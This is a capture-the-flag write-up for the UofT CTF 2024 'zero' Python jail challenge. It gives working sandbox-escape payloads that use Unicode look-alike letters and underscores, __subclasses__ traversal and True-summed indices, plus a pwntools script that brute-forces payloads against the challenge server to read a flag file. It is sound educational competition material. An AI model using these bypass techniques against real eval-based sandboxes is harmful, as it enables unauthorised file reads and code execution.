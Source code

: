 # UofT CTF 2024 Writeup (Team: L3ak, 3rd Place)
Competition URL: https://play.uoftctf.org/
## Overview

| Challenge | Category | Points | Flag |
| --------- | -------- | ------ | ---- |
| zero | jail | 494 | uoftctf{zero_security_too_apparently_lmao} |

## zero
In this challenge, we are given the following PyJail:
```Python
def check(code):
    # no letters
    alphabet = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ"
    # no numbers
    numbers = "0123456789"
    # no underscores
    underscore = "__"
    
    return not any((c in alphabet) or (c in numbers) or (underscore in code) for c in code)

def safe_eval(code):
    if (check(code)):
        g = {'__builtins__': None}
        l = {'__builtins__': None}
        return print(eval(code, g, l )) # good luck!
    else:
        print("lol no")
        
code = input(">>> ")
safe_eval(code)
```
This code sanitizes our input by removing all builtins and enforcing a blacklist on alphanumeric characters and double underscores "__". This severely limits our ability to execute code, but as a wise man once said...

![gif1](./images/nothing-is-impossible-shia-labeouf.gif)

As soon as I saw this challenge, I immediately remembered two very similar challenges I solved from BYUCTF 2023: [one which removed builtins](https://github.com/BYU-CSA/BYUCTF-2023/tree/main/builtins-2) and [another which blacklisted alphanumeric characters](https://github.com/BYU-CSA/BYUCTF-2023/tree/main/a-z0-9). As this challenge is essentially a combination of the two, my solution incorporates similar techniques.

Our ultimate goal is to read the ``flag`` file whose name/path is visible in the Dockerfile. In the absence of any restrictions, we could do this with something like 
```Python
print(open('flag').read()) # (1)
```
However, here we have several restrictions which prevent this simple code injection. The first one we need to bypass is the removal of builtins, which are native Python functions (such as ``print()``) that are typically available by default. To recover these, we can exploit [the dunder method hierarchy](https://www.tutorialsteacher.com/python/magic-methods-in-python) on Python objects like lists ``[]``, tuples ``()``, etc. In essence, we can traverse "up" and "down" the dunder method hierarchy to access all builtin methods which were removed in the sanitization. The following will do the same as (1) above, bypassing the builtins removal:
```Python
().__class__.__bases__[0].__subclasses__()[121].get_data('.','flag') # (2)
```
(For more information on how this works, see [here](https://book.hacktricks.xyz/generic-methodologies-and-resources/python/bypass-python-sandboxes#no-builtins). Note that the index 121 may vary by machine, so some tweaking/bruting may be required.)

We can improve on (2) above to bypass the **__** blacklist by using Unicode character U+FF3F (`＿`) ([found here](https://www.compart.com/en/unicode/U+FF3F)). Amazingly, Python interprets this character as an underscore in code execution, yet it passes the blacklist check!
```Python
()._＿class_＿._＿bases_＿[0]._＿subclasses_＿()[121].get_data('.','flag') # (3)
```
Now we need to bypass the alphanumeric character restriction, and this is where the challenge *really* begins. Buckle up, it's about to get messy...

![gif2](./images/the_office.gif)

First let us start with replacing all alphabet characters ``abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ``. Just like with the underscores, we can utilize Unicode alphabet characters for parts of our exploit. The Python interpreter will perceive these as normal alphabet chars, but since they are not standard ASCII, they will bypass the blacklist check. I used some Unicode gothic alphabet characters (found [here](https://en.wikipedia.org/wiki/Mathematical_Alphanumeric_Symbols)) as suitable substitutes for most of the exploit above:
```Python
()._＿𝖈𝖑𝖆𝖘𝖘_＿._＿𝖇𝖆𝖘𝖊𝖘_＿[0]._＿𝖘𝖚𝖇𝖈𝖑𝖆𝖘𝖘𝖊𝖘_＿()[121].𝖌𝖊𝖙_𝖉𝖆𝖙𝖆('.','flag') # (4)
```
Notice that we cannot use these gothic characters for the ``flag`` file, since ``flag`` is spelled with standard ASCII alphabet characters, and using ``𝖋𝖑𝖆𝖌`` will attempt to open a file which doesn't exist. We need Python code which will form the string ``flag`` during execution without explicitly using those characters. To get around this, we can use the ``__doc__`` dunder attribute to obtain documentation about various objects and index that string to get the character we want. We can then concatenate the characters together to get the word ``flag``! For example, to obtain the character **g**, we can use the following:
```Python
()._＿𝖉𝖔𝖈_＿[38]
```
This will access the tuple documentation and get the 38th character (g):
```
Built-in immutable sequence.\n\nIf no ar(g)ument is given, the constructor returns an empty tuple.\nIf iterable is specified the tuple is initialized from iterable's items.\n\nIf the argument is a tuple, the return value is the same object.
```
We can update (4) above using this method for all 4 characters of ``flag`` to get:
```Python
()._＿𝖈𝖑𝖆𝖘𝖘_＿._＿𝖇𝖆𝖘𝖊𝖘_＿[0]._＿𝖘𝖚𝖇𝖈𝖑𝖆𝖘𝖘𝖊𝖘_＿()[121].𝖌𝖊𝖙_𝖉𝖆𝖙𝖆('.',()._＿𝖉𝖔𝖈_＿[31]+(''!='')._＿𝖉𝖔𝖈_＿[3]+()._＿𝖉𝖔𝖈_＿[14]+()._＿𝖉𝖔𝖈_＿[38]) # (5)
```
This will read the ``flag`` file, while bypassing all alphabet, double underscore, and builtins restrictions! Don't believe me? Let's do a sanity check:

![img1](./images/sanity.png)

The last restriction we need to bypass is the one on digits ``0123456789``. This is where my payload becomes truly monstrous, and I apologize in advance for any mental anguish or distress I cause readers of this writeup. Turn back now if you have a serious heart condition or are easily made sick by hideous code aesthetics.

The basic idea to replace digits (which two of my teammates, ahh and Matthias, helped me realize) is that in Python, ``True``/``False`` are interpreted as ``1``/``0`` when used in mathematical expressions. Thus, we can replace all numeric values in (5) with ``True+True+True+...`` for all integers > 0 and ``False`` in the case of 0. To avoid using the strings ``True`` and ``False`` *directly*, we can substitute expressions which *evaluate* to ``True``/``False``, such as ``(''=='')`` (True) and ``(''!='')`` (False). Thus, to form any integer, we can just add arbitrary amounts of ``(''=='')+(''=='')+...``. While simple in concept, this addition lengthens the payload **considerably :)**

```Python
()._＿𝖈𝖑𝖆𝖘𝖘_＿._＿𝖇𝖆𝖘𝖊𝖘_＿[''=='𝖈']._＿𝖘𝖚𝖇𝖈𝖑𝖆𝖘𝖘𝖊𝖘_＿()[(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')].𝖌𝖊𝖙_𝖉𝖆𝖙𝖆('.',()._＿𝖉𝖔𝖈_＿[(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')]+(''!='')._＿𝖉𝖔𝖈_＿[(''=='')+(''=='')+(''=='')]+()._＿𝖉𝖔𝖈_＿[(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')]+()._＿𝖉𝖔𝖈_＿[(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')])
```

That's it! Now with it working locally, we just need to test it on the server. Remember that the index ``121`` for the ``get_data`` function I've been using may be different on the remote machine, so we need to brute force it. Besides that, the payload is essentially the same. 

**Python Solution:**
```Python
from pwn import *

def check(code):
    alphabet = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ" # no letters
    numbers = "0123456789" # no numbers
    underscore = "__" # no underscores
    return not any((c in alphabet) or (c in numbers) or (underscore in code) for c in code)

def safe_eval(code):
    if (check(code)):
        g = {'__builtins__': None}
        l = {'__builtins__': None}
        return print(eval(code, g, l )) # good luck!
    else:
        print("lol no")

# This function prints the sum of n identical expressions which evaluate to True
# The purpose of this is to construct any number (True + True == 2, etc.) without
# explicitly using alphanumeric characters
def printTrue(n):
    s = ""
    for i in range(n):
        s += "(''=='')+"
    return s[:-1]

# This recovers the builtins and opens flag.txt
# code1 = "()._＿𝖈𝖑𝖆𝖘𝖘_＿._＿𝖇𝖆𝖘𝖊𝖘_＿[''=='𝖈']._＿𝖘𝖚𝖇𝖈𝖑𝖆𝖘𝖘𝖊𝖘_＿()[(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')].𝖌𝖊𝖙_𝖉𝖆𝖙𝖆('.','flag.txt')"

# This spells out 'flag.txt' (I mistakenly thought the flag was in 'flag.txt' :(
# code2 = "()._＿𝖉𝖔𝖈_＿[(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')]+(''!='')._＿𝖉𝖔𝖈_＿[(''=='')+(''=='')+(''=='')]+()._＿𝖉𝖔𝖈_＿[(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')]+()._＿𝖉𝖔𝖈_＿[(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')]+'.'+'?'._＿𝖉𝖔𝖈_＿[''=='']+[].𝖎𝖓𝖉𝖊𝖝._＿𝖉𝖔𝖈_＿[(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')]+'?'._＿𝖉𝖔𝖈_＿[''=='']"

# This spells out 'flag' (according to the Dockerfile, the flag is stored in 'flag')
code2 = "()._＿𝖉𝖔𝖈_＿[(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')]+(''!='')._＿𝖉𝖔𝖈_＿[(''=='')+(''=='')+(''=='')]+()._＿𝖉𝖔𝖈_＿[(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')]+()._＿𝖉𝖔𝖈_＿[(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')]"


for i in range(1, 400): # Brute force the index of the builtins subclass (it is almost certainly different on local than remote)
    
    # Connect to server and construct payload
    r = remote('35.222.133.12', 5000)
    code1 = "()._＿𝖈𝖑𝖆𝖘𝖘_＿._＿𝖇𝖆𝖘𝖊𝖘_＿[''=='𝖈']._＿𝖘𝖚𝖇𝖈𝖑𝖆𝖘𝖘𝖊𝖘_＿()[" + printTrue(i) + "].𝖌𝖊𝖙_𝖉𝖆𝖙𝖆('.',"
    code = code1 + code2 + ')'

    # Send payload and retrieve the flag
    r.recvuntil(b'>>>')
    r.sendline(code.encode())
    line = r.recvline().rstrip().decode()

    # If we found the flag, then print it
    if 'uoft' in line:
        print(line.rstrip())
        r.close()
        exit()
    r.close()
```

**Flag:** ```uoftctf{zero_security_too_apparently_lmao}```

Thanks for reading!

![gif3](./images/leo.gif)
